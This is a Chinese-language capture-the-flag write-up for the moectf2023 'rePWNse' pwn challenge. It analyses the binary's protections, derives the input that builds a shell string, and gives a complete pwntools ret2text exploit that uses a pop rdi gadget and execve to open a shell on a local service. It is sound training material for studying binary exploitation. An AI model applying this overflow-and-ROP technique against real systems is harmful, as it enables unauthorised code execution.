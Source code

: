 ```yaml
---
title: moectf2023 - rePWNse
date: 2023/9/25 12:00:00
tags:
    - noob
excerpt: 通过分析`rePWNse`程序，利用`makebinsh`函数构造输入并结合`pop rdi; ret;`与`execve()`实现了ret2text漏洞利用。
---
```


## 文件分析

下载`rePWNse`, NX on, PIE off, Canary off, RELRO full
ghidra分析为64位程序

## 解题思路

`makebinsh`函数中有一个字母表和待输入的7位数字，易知else子句都是随机字母，难以组成目标；
而if子句和判断语句之外的cat语句可以组成目标，故得到2个等式和5个方程，整理得输入后的数组：

|idx|0|1|2|3|4|5|6|
|---|-|-|-|-|-|-|-|
|val|1|9|1|9|8|1|0|

~~这么臭的题还是不要罢~~

又发现存在`pop rdi; ret;` & `execve()`，回到了简单的ret2text

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 41053)
sh.sendline(b'1 9 1 9 8 1 0')
sh.recvuntil(b'is:') # skip
shstrAddr = int(sh.recvline()[2:9], 16)
popRdiAddr = 0x0040168e
execveAddr = 0x00401296
sh.sendline(b'0'*0x48 + p64(popRdiAddr) + p64(shstrAddr) + p64(execveAddr))
sh.interactive()
```

Done.
